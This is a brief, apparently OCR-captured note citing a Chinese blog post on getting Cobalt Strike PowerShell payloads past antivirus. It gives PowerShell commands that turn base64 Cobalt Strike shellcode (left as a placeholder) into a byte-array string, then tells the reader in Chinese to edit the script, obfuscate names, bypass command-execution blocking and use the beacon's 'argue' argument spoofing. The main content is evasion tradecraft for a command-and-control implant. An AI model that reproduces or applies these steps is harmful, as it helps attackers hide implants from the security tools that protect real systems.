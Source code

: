 	From: https://y4er.com/post/cobalt-strike-powershell-bypass/
	powershell>$string = ''
	powershell>$s = [Byte[]]$var_code = [System.Convert]::FromBase64String('[cs生成的shellcode]')
	powershell>$s |foreach { $string = $string + $_.ToString()+','}
	powershell>$string>c:\1.txt
	修改ps脚本
	[Byte[]]$var_code = [Byte[]](payload)
	再混淆一下函数和变量
	绕过执行命令的拦截
	使用cs的参数欺骗
	beacon > argue cmd.exe blablabla